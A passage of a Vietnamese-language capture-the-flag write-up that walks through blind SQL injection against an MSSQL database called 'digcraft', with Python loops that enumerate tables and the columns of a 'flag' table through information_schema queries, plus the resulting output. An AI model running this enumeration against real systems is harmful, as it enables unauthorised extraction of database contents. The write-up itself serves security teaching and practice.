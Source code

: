 
### **2. Liệt kê các bảng (Tables)**

#### **Ý tưởng:**
1. Dùng **`SELECT COUNT(*) FROM information_schema.tables`** để tìm số lượng bảng.
2. Trích xuất tên từng bảng sử dụng **`table_name`** trong **`information_schema.tables`**.

#### **Triển khai:**

**Xác định số lượng bảng:**
```python
num_tables = dumpNumber("SELECT COUNT(*) FROM information_schema.tables WHERE TABLE_CATALOG='digcraft'")
print(f"Số bảng: {num_tables}")
```

**Trích xuất tên từng bảng:**
```python
for i in range(num_tables):
    table_name_length = dumpNumber(f"SELECT LEN(table_name) FROM information_schema.tables WHERE table_catalog='digcraft' ORDER BY table_name OFFSET {i} ROWS FETCH NEXT 1 ROWS ONLY")
    table_name = dumpString(f"SELECT table_name FROM information_schema.tables WHERE table_catalog='digcraft' ORDER BY table_name OFFSET {i} ROWS FETCH NEXT 1 ROWS ONLY", table_name_length)
    print(f"Tên bảng {i+1}: {table_name}")
```

#### **Kết quả:**
```plaintext
Số bảng: 2
Tên bảng 1: flag
Tên bảng 2: userAgents
```

---

### **3. Liệt kê các cột (Columns)**

#### **Ý tưởng:**
1. Dùng **`SELECT COUNT(column_name)`** để xác định số lượng cột trong bảng.
2. Trích xuất tên từng cột từ **`INFORMATION_SCHEMA.COLUMNS`**.

#### **Triển khai:**

**Xác định số lượng cột:**
```python
num_columns = dumpNumber("SELECT COUNT(column_name) FROM INFORMATION_SCHEMA.columns WHERE table_name='flag' AND table_catalog='digcraft'")
print(f"Số cột trong bảng 'flag': {num_columns}")
```

**Trích xuất tên từng cột:**
```python
for i in range(num_columns):
    column_name_length = dumpNumber(f"SELECT LEN(column_name) FROM INFORMATION_SCHEMA.columns WHERE table_name='flag' AND table_catalog='digcraft' ORDER BY column_name OFFSET {i} ROWS FETCH NEXT 1 ROWS ONLY")
    column_name = dumpString(f"SELECT column_name FROM INFORMATION_SCHEMA.columns WHERE table_name='flag' AND table_catalog='digcraft' ORDER BY column_name OFFSET {i} ROWS FETCH NEXT 1 ROWS ONLY", column_name_length)
    print(f"Tên cột {i+1} trong bảng 'flag': {column_name}")
```

